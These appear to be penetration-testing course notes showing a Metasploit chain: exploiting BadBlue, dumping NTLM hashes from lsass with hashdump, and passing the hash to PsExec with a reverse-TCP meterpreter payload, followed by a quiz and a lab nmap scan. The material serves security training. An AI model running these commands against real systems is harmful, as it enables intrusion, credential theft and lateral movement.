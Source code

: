 
- Authenticate with stolen clear text password
- Authenticate with legitimate creds


Setup msfconsole
```
service postgresql start && msfconsole
workspace -a PsExec 
setg RHOST <target_ip>
```

Setup module 
```
search badblue 
use exploit/windows/http/badblue_passthru
set target <bad_blue_version>
exploit
```

Dump hashes by migrating to system prcoess lsass
```
pgrep lsass
migrate <process_id>
hashdump
```

Use credentials to authenticate with PsExec
```
search psexec
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
options
set SMBUser Administrator
set SMBPass <smb_hash>
exploit
```

## Quiz

Which one of the following meterpreter commands can be used to dump NTLM hashes?

	hashdump
## Lab

```
10.4.20.171

```

```
db_nmap -sV -O  10.4.20.171

[*] Nmap: 135/tcp  open  msrpc         Microsoft Windows RPC
[*] Nmap: 139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp  open  microsoft-ds?
[*] Nmap: 3389/tcp open  ms-wbt-server Microsoft Terminal Services

```